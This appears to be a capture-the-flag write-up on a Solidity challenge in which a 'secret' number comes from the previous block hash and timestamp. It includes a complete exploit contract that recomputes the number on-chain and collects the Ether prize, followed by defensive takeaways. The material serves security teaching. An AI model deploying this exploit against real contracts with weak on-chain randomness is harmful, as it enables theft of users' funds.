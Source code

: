 # GuessTheNewNumberChallenge: Summary

## Intention

A game where players guess a secret number, generated using a previous block's hash and timestamp, to win Ether.

## Vulnerability

The contract uses publicly accessible blockchain data to generate the secret number, making it exploitable.

## Exploit

An attacker can create a contract, `GuessTheNewNumberExploit`, which interacts with the vulnerable contract by calculating the secret number using the same approach as the original contract. By calling the `guess()` function with the calculated secret number and sending the required Ether, the attacker can successfully exploit the vulnerability and claim the prize.

```solidity
contract GuessTheNewNumberExploit {
    GuessTheNewNumberChallenge public challengeContract;

    function GuessTheNewNumberExploit(address challengeAddress) public payable {
        challengeContract = GuessTheNewNumberChallenge(challengeAddress);
    }

    function exploit() public payable {
        require(msg.value == 1 ether);
        uint8 secretNumber = uint8(
            keccak256(block.blockhash(block.number - 1), now)
        );

        // Call guess() function on the challenge contract with the secret number and send 1 Ether
        challengeContract.guess.value(1 ether)(secretNumber);

        // Transfer the remaining balance back to the sender
        msg.sender.transfer(address(this).balance);
    }

    // Fallback function to receive Ether
    function() public payable {}
}
```

## Takeaways

- Don't use public data for secret values in contracts.
- Be aware that attackers can deploy contracts to exploit vulnerabilities.
- Ensure security through audits and testing.
